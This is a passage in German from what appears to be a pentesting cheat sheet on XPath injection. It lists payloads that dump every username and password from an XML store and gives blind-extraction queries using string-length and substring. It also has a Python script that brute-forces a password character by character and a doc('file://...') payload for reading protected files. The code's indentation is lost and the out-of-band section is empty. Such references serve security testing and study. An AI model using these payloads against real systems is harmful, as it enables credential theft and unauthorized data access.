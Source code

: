 Die Ausgabe enthält Zeichenfolgen und der Benutzer kann die Werte manipulieren, um zu suchen:
```
/user/username[contains(., '+VALUE+')]
```

```
') or 1=1 or (' #Get all names
') or 1=1] | //user/password[('')=(' #Get all names and passwords
') or 2=1] | //user/node()[('')=(' #Get all values
')] | //./node()[('')=(' #Get all values
')] | //node()[('')=(' #Get all values
') or 1=1] | //user/password[('')=(' #Get all names and passwords
')] | //password%00 #All names and passwords (abusing null injection)
')]/../*[3][text()!=(' #All the passwords
')] | //user/*[1] | a[(' #The ID of all users
')] | //user/*[2] | a[(' #The name of all users
')] | //user/*[3] | a[(' #The password of all users
')] | //user/*[4] | a[(' #The account of all users
```
## Blind Explotation

### **Länge eines Wertes ermitteln und durch Vergleiche extrahieren:**
```bash
' or string-length(//user[position()=1]/child::node()[position()=1])=4 or ''=' #True if length equals 4
' or substring((//user[position()=1]/child::node()[position()=1]),1,1)="a" or ''=' #True is first equals "a"

substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)

... and ( if ( $employee/role = 2 ) then error() else 0 )... #When error() is executed it rises an error and never returns a value
```
### **Python-Beispiel**
```python
import requests, string

flag = ""
l = 0
alphabet = string.ascii_letters + string.digits + "{}_()"
for i in range(30):
r = requests.get("http://example.com?action=user&userid=2 and string-length(password)=" + str(i))
if ("TRUE_COND" in r.text):
l = i
break
print("[+] Password length: " + str(l))
for i in range(1, l + 1): #print("[i] Looking for char number " + str(i))
for al in alphabet:
r = requests.get("http://example.com?action=user&userid=2 and substring(password,"+str(i)+",1)="+al)
if ("TRUE_COND" in r.text):
flag += al
print("[+] Flag: " + flag)
break
```
### Datei lesen
```python
(substring((doc('file://protected/secret.xml')/*[1]/*[1]/text()[1]),3,1))) < 127
```
## OOB-Ausnutzung
```python
```